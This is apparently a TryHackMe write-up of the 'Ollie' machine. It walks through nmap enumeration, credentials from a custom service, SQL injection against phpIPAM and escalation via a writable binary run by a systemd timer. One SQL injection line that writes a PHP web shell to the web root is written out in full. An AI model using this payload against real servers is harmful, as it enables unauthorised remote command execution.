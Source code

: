 ```yaml
---
title: Ollie -- Writeup
date: 2022-04-13
categories: [TryHackMe, Medium]
tags: [tryhackme, ctf, SQLi, timer]     # TAG names should always be lowercase
img_path: /assets/img/tryhackme/ollie/
---
```


# Summary -
Medium rated TryHackMe machine containing misconfigured web application which is leveraged to get initial access. For privilege escalation there is credential reuse and abuse of system timer service.

# Enumeration -
Nmap, here we go...
### nmap -
```bash
# Nmap 7.92 scan initiated Tue Apr 12 09:36:17 2022 as: nmap -T4 -p- -A -oA port_scan 10.10.123.41
Nmap scan report for 10.10.123.41
Host is up (0.13s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b7:1b:a8:f8:8c:8a:4a:53:55:c0:2e:89:01:f2:56:69 (RSA)
|   256 4e:27:43:b6:f4:54:f9:18:d0:38:da:cd:76:9b:85:48 (ECDSA)
|_  256 14:82:ca:bb:04:e5:01:83:9c:d6:54:e9:d1:fa:c4:82 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /immaolllieeboyyy
| http-title: Ollie :: login
|_Requested resource was http://10.10.123.41/index.php?page=login
|_http-server-header: Apache/2.4.41 (Ubuntu)
1337/tcp open  waste?
| fingerprint-strings: 
|   DNSStatusRequestTCP, GenericLines: 
|     Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.
|     What is your name? What's up, 
|     It's been a while. What are you here for?
|   DNSVersionBindReqTCP: 
|     Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.
|     What is your name? What's up, 
|     version
|     bind
|     It's been a while. What are you here for?
|   GetRequest: 
|     Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.
|     What is your name? What's up, Get / http/1.0
|     It's been a while. What are you here for?
|   HTTPOptions: 
|     Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.
|     What is your name? What's up, Options / http/1.0
|     It's been a while. What are you here for?
|   Help: 
|     Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.
|     What is your name? What's up, Help
|     It's been a while. What are you here for?
|   NULL, RPCCheck: 
|     Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.
|     What is your name?
|   RTSPRequest: 
|     Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.
|     What is your name? What's up, Options / rtsp/1.0
|_    It's been a while. What are you here for?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1337-TCP:V=7.92%I=7%D=4/12%Time=62558111%P=x86_64-pc-linux-gnu%r(NU
SF:LL,59,"Hey\x20stranger,\x20I'm\x20Ollie,\x20protector\x20of\x20panels,\
SF:x20lover\x20of\x20deer\x20antlers\.\n\nWhat\x20is\x20your\x20name\?\x20
SF:")%r(GenericLines,93,"Hey\x20stranger,\x20I'm\x20Ollie,\x20protector\x2
SF:0of\x20panels,\x20lover\x20of\x20deer\x20antlers\.\n\nWhat\x20is\x20you
SF:r\x20name\?\x20What's\x20up,\x20\r\n\r!\x20It's\x20been\x20a\x20while\.
SF:\x20What\x20are\x20you\x20here\x20for\?\x20")%r(GetRequest,A1,"Hey\x20s
SF:tranger,\x20I'm\x20Ollie,\x20protector\x20of\x20panels,\x20lover\x20of\
SF:x20deer\x20antlers\.\n\nWhat\x20is\x20your\x20name\?\x20What's\x20up,\x
SF:20Get\x20/\x20http/1\.0\r\n\r!\x20It's\x20been\x20a\x20while\.\x20What\
SF:x20are\x20you\x20here\x20for\?\x20")%r(HTTPOptions,A5,"Hey\x20stranger,
SF:\x20I'm\x20Ollie,\x20protector\x20of\x20panels,\x20lover\x20of\x20deer\
SF:x20antlers\.\n\nWhat\x20is\x20your\x20name\?\x20What's\x20up,\x20Option
SF:s\x20/\x20http/1\.0\r\n\r!\x20It's\x20been\x20a\x20while\.\x20What\x20a
SF:re\x20you\x20here\x20for\?\x20")%r(RTSPRequest,A5,"Hey\x20stranger,\x20
SF:I'm\x20Ollie,\x20protector\x20of\x20panels,\x20lover\x20of\x20deer\x20a
SF:ntlers\.\n\nWhat\x20is\x20your\x20name\?\x20What's\x20up,\x20Options\x2
SF:0/\x20rtsp/1\.0\r\n\r!\x20It's\x20been\x20a\x20while\.\x20What\x20are\x
SF:20you\x20here\x20for\?\x20")%r(RPCCheck,59,"Hey\x20stranger,\x20I'm\x20
SF:Ollie,\x20protector\x20of\x20panels,\x20lover\x20of\x20deer\x20antlers\
SF:.\n\nWhat\x20is\x20your\x20name\?\x20")%r(DNSVersionBindReqTCP,B0,"Hey\
SF:x20stranger,\x20I'm\x20Ollie,\x20protector\x20of\x20panels,\x20lover\x2
SF:0of\x20deer\x20antlers\.\n\nWhat\x20is\x20your\x20name\?\x20What's\x20u
SF:p,\x20\0\x1e\0\x06\x01\0\0\x01\0\0\0\0\0\0\x07version\x04bind\0\0\x10\0
SF:\x03!\x20It's\x20been\x20a\x20while\.\x20What\x20are\x20you\x20here\x20
SF:for\?\x20")%r(DNSStatusRequestTCP,9E,"Hey\x20stranger,\x20I'm\x20Ollie,
SF:\x20protector\x20of\x20panels,\x20lover\x20of\x20deer\x20antlers\.\n\nW
SF:hat\x20is\x20your\x20name\?\x20What's\x20up,\x20\0\x0c\0\0\x10\0\0\0\0\
SF:0\0\0\0\0!\x20It's\x20been\x20a\x20while\.\x20What\x20are\x20you\x20her
SF:e\x20for\?\x20")%r(Help,95,"Hey\x20stranger,\x20I'm\x20Ollie,\x20protec
SF:tor\x20of\x20panels,\x20lover\x20of\x20deer\x20antlers\.\n\nWhat\x20is\
SF:x20your\x20name\?\x20What's\x20up,\x20Help\r!\x20It's\x20been\x20a\x20w
SF:hile\.\x20What\x20are\x20you\x20here\x20for\?\x20");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=4/12%OT=22%CT=1%CU=40343%PV=Y%DS=2%DC=T%G=Y%TM=625581B
OS:E%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST1
OS:1NW7%O6=M505ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 993/tcp)
HOP RTT       ADDRESS
1   132.78 ms 10.11.0.1
2   132.86 ms 10.10.123.41

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Apr 12 09:42:22 2022 -- 1 IP address (1 host up) scanned in 364.76 seconds
```
Hmm... Let's check web server first.

![web_login](Pasted image 20220412203641.png)

![php_ipam_version](Pasted image 20220412203655.png)

A quick Google search revealed it is vulnerable to SQLi but sadly 1.5 version installed on the machine has vulnerability fixed I guess. :(

Tried bruteforcing with ollie as user but got blocked for 5 min... :(

![brute_force](Pasted image 20220412204315.png)

On Nmap scan we saw a strange service running on port 1337.

![strange_service](Pasted image 20220412204232.png)

Okay, time to connect to 1337 using nc.

![netcat](Pasted image 20220412204350.png)

Oh noice... Make sure to answer right otherwise you won't get creds. (**admin:\<redacted\>**)

Okay, logged in with creds but no luck finding anything...

![room_hint](Pasted image 20220412214117.png)
_On room description, looks like a hint to me..._

Hmm.. Maybe it is vulnerable to SQLi.

![sqli](Pasted image 20220412214507.png)
_Using [https://fluidattacks.com/advisories/mercury/](https://fluidattacks.com/advisories/mercury/) poc._

And indeed it is vulnerable... :D

# Exploitation -
Phew... After some trial and error finally managed to convert it to rce.

```sql
" union select null,null,null,"<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/backdoor.php" -- -
```

![rce](Pasted image 20220412221454.png)

Let's get reverse shell now.

![rev_shell](Pasted image 20220412221716.png))

# Post Exploitation -
### www-data to ollie -
Time to enumerate...

![config.php](Pasted image 20220412221818.png)

Found mysql creds... **phpipam_ollie:\<redacted\>**

Let's try to switch to ollie user using these creds.
And didn't work... :(

Let's try again with the first password we got from 1337 port service.

![ollie](Pasted image 20220412222125.png)
_And worked!!! :D_

### ollie to root -
Hmm... Nothing much interesting on linpeas.

![polkit](Pasted image 20220413124206.png)
_gcc and make are not installed so forget about it... :(_

But pspy revealed something interesting...

![pspy](Pasted image 20220413114145.png)

No luck finding that file...

```bash
find / -group ollie 2> /dev/null
```
Above find command revealed one interesting file..

![feedme](Pasted image 20220413124806.png)

Taking a look at linpeas again revealed a system timer. (If you read the room description then you may remember the timer hint.)

![timer](Pasted image 20220413124143.png)

Interesting...

![timer_content](Pasted image 20220413125007.png)

Since, its executing /usr/bin/feedme file which we have write access, so we can use that to escalate our privilege to root.

![payload](Pasted image 20220413125628.png)
_bash suid payload_

![get_root](Pasted image 20220413125647.png)

And we are root! :D